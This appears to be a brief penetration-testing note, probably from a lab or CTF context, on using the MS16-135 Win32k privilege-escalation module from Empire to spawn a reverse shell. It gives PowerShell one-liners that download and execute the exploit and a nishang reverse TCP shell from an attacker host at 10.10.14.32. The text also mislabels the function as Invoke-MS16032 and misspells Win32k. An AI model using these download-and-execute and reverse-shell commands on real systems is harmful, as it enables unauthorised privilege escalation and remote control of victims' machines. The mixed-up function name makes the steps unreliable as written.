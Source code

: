 # MS16-135 Win23k

source: [https://github.com/EmpireProject/Empire/raw/master/data/module\_source/privesc/Invoke-MS16135.ps1](https://github.com/EmpireProject/Empire/raw/master/data/module_source/privesc/Invoke-MS16135.ps1)

1\) Edit ps script at the end of the content to include the following command for executing exploit to trigger nishang reverse powershell \([https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)\) which is renamed as `shell.ps1`

```text
Invoke-MS16032 -Command "IEX (New-Object Net.WebClient).downloadString('http://10.10.14.32/shell.ps1')"
```

2\) Host this file in webserver in your kali machine, you should also host tcp reverse named 'shell.ps1'

3\) In victim machine, run command :

```text
IEX (New-Object Net.WebClient).downloadString('http://10.10.14.32/Invoke-MS16135.ps1')
```


